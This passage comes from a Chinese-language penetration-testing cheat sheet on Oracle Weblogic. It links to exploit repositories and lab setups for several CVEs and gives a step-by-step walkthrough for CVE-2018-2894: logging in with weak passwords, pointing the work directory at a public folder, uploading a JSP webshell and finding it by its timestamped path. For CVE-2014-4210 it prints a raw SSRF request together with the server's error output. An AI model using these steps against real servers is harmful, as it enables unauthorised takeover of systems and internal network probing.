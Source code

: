 poc：nuclei https://cloud.tencent.com/developer/article/1946313?from=article.detail.1554919 exp：https://github.com/twseptian/cve-2022-24112

#### Weblogic

Weblogic中间件渗透总结:https://www.freebuf.com/vuls/325955.html

**CVE-2018-2628**

weblogic漏洞利用图形化-雷石安全

**CVE-2018-2894**

https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2018-2894

Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

访问http://your-ip:7001/console，即可看到后台登录页面 弱口令进入后台

登录后台页面，点击base\_domain的配置，在“高级”中开启“启用 Web 服务测试页”选项： 这是前提条件

访问`http://your-ip:7001/ws_utc/config.do`，设置Work Home Dir为`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`。我将目录设置为ws\_utc应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。

然后点击安全 -> 增加，然后上传webshell：

上传后，查看返回的数据包，其中有时间戳：

`http://your-ip:7001/ws_utc/css/config/keystore/1633759987859_cmd.jsp`

**CVE-2019-2725**

exp地址：https://github.com/TopScrew/CVE-2019-2725

weblogic漏洞利用图形化-雷石安全

**CVE-2014-4210**

weblogic SSRF漏洞(CVE-2014-4210)

https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:701 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

修改为一个不存在的端口，将会返回could not connect over HTTP to server。

```
An error has occurred
weblogic.uddi.client.structures.exception.XML_SoapException: Tried all: '1' addresses, but could not connect over HTTP to server: '127.0.0.1', port: '701'
```
